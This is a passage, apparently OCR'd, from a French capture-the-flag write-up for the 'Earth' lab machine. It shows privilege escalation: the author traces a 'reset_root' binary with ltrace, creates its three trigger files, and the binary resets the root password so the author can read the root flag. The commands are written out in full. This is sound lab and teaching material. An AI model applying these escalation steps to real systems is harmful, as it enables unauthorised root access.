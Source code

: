 ```plain
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
/usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
```

Le plus simple est de le récupérer (sftp sur le tunnel ReverseSSH) et de le tracer avec *ltrace* :  

```plain
$ ltrace ./reset_root 
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                                                                                       = 38
access("/dev/shm/kHgTFI5G", 0)                                                                                                    = -1
access("/dev/shm/Zw7bV9U5", 0)                                                                                                    = -1
access("/tmp/kcM0Wewe", 0)                                                                                                        = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                                                                                       = 44
+++ exited (status 0) +++
```

Le programme teste la présence de trois fichiers qui doivent être les triggers mentionnés. Les noms sont-ils générés dynamiquement ? C'est le moment de tester.  

```plain
bash-5.1$ touch /dev/shm/kHgTFI5G /dev/shm/Zw7bV9U5 /tmp/kcM0Wewe
bash-5.1$ /usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth

bash-5.1$ su root
Password: 
[root@earth tmp]# cd
[root@earth ~]# ls
anaconda-ks.cfg  root_flag.txt
[root@earth ~]# cat root_flag.txt 

              _-o#&&*''''?d:>b\_
          _o/"`''  '',, dMF9MMMMMHo_
       .o&#'        `"MbHMMMMMMMMMMMHo.
     .o"" '         vodM*$&&HMMMMMMMMMM?.
    ,'              $M&ood,~'`(&##MMMMMMH\
   /               ,MMMMMMM#b?#bobMMMMHMMML
  &              ?MMMMMMMMMMMMMMMMM7MMM$R*Hk
 ?$.            :MMMMMMMMMMMMMMMMMMM/HMMM|`*L
|               |MMMMMMMMMMMMMMMMMMMMbMH'   T,
$H#:            `*MMMMMMMMMMMMMMMMMMMMb#}'  `?
]MMH#             ""*""""*#MMMMMMMMMMMMM'    -
MMMMMb_                   |MMMMMMMMMMMP'     :
HMMMMMMMHo                 `MMMMMMMMMT       .
?MMMMMMMMP                  9MMMMMMMM}       -
-?MMMMMMM                  |MMMMMMMMM?,d-    '
 :|MMMMMM-                 `MMMMMMMT .M|.   :
  .9MMM[                    &MMMMM*' `'    .
   :9MMk                    `MMM#"        -
     &M}                     `          .-
      `&.                             .
        `~,   .                     ./
            . _                  .-
              '`--._,dd###pp=""'

Congratulations on completing Earth!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_b0da9554d29db2117b02aa8b66ec492e]
```